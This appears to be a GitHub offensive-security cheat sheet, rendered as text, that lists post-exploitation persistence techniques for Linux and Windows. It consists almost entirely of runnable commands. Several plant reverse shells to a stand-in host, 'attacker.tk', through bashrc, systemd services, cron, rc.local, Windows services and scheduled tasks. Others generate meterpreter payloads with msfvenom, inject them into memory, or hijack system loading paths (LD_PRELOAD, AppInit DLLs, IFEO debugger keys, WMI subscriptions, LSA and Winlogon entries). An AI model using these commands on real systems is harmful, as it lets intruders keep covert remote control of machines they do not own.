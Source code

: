 # WEB

## XSS



## REVERSE
* rlwrap -cAr nc -lnvp PORT

# PERSISTANT

	## LINUX
	
		* Autorun
		
			bash$> echo "nc attacker.tk 8888 ‐e /bin/bash 2>/dev/null &" >>~/.bashrc
			
		* Service
		
			bash#> vim /etc/systemd/system/persistence.service
			bash$> vim ~/.config/systemd/user/persistence.service
			
				[Unit]
				Description=persistence
				[Service]
				ExecStart=/bin/bash ‐c 'bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1'
				Restart=always
				RestartSec=60
				[Install]
				WantedBy=default.target
				
			bash#> systemctl enable persistence.service
			bash#> systemctl start persistence.service
			bash$> systemctl ‐‐user enable persistence.service
			bash$> systemctl ‐‐user start persistence.service
			
		* Tasks
		
			bash#> echo "* * * * * bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1" >>/var/spool/cron/root
			bash#> echo $'SHELL=/bin/bash\n* * * * * root bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1\n'> /etc/cron.d/pwn
			
		* In MEMORY
		
			msfvenom ‐p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888 ‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
			bash$> inject_linux PID meter32.bin
			
		* LD_PRELOAD
		
			bash#> echo /path/to/meter.so >> /etc/ld.so.preload
			bash#> echo export LD_PRELOAD=/path/to/meter.so >> /etc/profile
			bash$> echo export LD_PRELOAD=/path/to/meter.so >> ~/.bashrc
			
		* rc.local
		
			bash#> echo "nc attacker.tk 8888 ‐e /bin/bash &" >> /etc/rc.local
			
	## WINDOWS
	
		* Autorun
		
			cmd$> copy meter.exe %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
			cmd$> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\users\username\meter.exe"
			cmd#> copy meter.exe C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
			cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\system32\meter.exe"
			
		* Service
		
			cmd#> sc create persistence binPath= "nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888" start= auto
			cmd#> sc failure persistence reset= 0 actions=restart/60000/restart/60000/restart/60000
			cmd#> sc start persistence
			
		* Tasks
		
			cmd#> at 13:37 \temp\nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888
			cmd#> schtasks /create /ru SYSTEM /sc MINUTE /MO 1 /tn persistence /tr "c:\temp\nc.exe ‐e c:\windows\system32\cmd.exe attacker.tk 8888"
			
		* In MEMORY
		
			msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
			cmd$> inject_windows.exe PID meter32.bin
			
		* Debugger
		
			cmd#> copy calc.exe _calc.exe
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe ‐e c:\windows\system32\cmd.exeattacker.tk 8888" /f
		
		* Gflags
		
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD/d 512
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc ‐e \windows\system32\cmd.exe attacker.tk 8888"
			
		* WMI
		
			cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilterCREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
			cmd#> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"
			cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""
			
		* AppInit
		
			cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
			cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter64.dll" /f
			cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
			cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter32.dll" /f
			
		* Lsass
		
			cmd#> reg add "HKLM\system\currentcontrolset\control\lsa" /v"Notification Packages" /t reg_multi_sz /d "rassfm\0scecli\0meter" /f
			
		* Winlogon
		
			cmd#> reg add "HKLM\software\microsoft\windows nt\currentversion\winlogon" /v UserInit /t reg_sz /d "c:\windows\system32\userinit.exe,c:\windows\meter.exe"
			
		* Netsh
		
			cmd#> c:\windows\syswow64\netsh.exenetsh> add helper c:\windows\meter32.dll
			cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"
			
		* Office
		
			cmd$> reg add "HKCU\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\users\username\meter.dll

# OS

# UTILS

# LINKS

